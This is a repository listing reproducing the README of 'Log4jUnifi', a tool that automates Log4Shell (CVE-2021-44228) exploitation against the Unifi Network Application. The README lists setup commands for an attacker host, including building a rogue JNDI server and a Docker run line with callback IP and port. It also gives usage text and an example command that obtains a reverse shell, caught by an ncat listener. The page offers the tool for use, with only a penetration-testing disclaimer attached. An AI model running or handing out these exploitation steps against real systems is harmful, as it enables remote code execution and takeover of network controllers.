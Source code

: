 # Log4jUnifi

Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/puzzlepeaches](https://github.com/puzzlepeaches) |
| Url      | [https://github.com/puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi)                                               |
| Stars    | 108                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Log4jUnifi
Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.

* [Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && pip3 install -r requirements.txt
```

From the root of the Log4jUnifi repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && docker build -t log4junifi .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \ 
    -u https://unifi.acme.com:8443 -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -u URL -i CALLBACK -p PORT

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Unifi Network Manager base URL
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -u https://unifi.acme.com:8443 -i 10.10.10.1 -p 4444
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.



## Get the content

```
git clone https://github.com/puzzlepeaches/Log4jUnifi
cd Log4jUnifi
```

{% embed url="https://github.com/puzzlepeaches/Log4jUnifi" %}

<figure><img src="https://avatars.githubusercontent.com/u/8538866?v=4" alt=""><figcaption><p>puzzlepeaches</p></figcaption></figure>
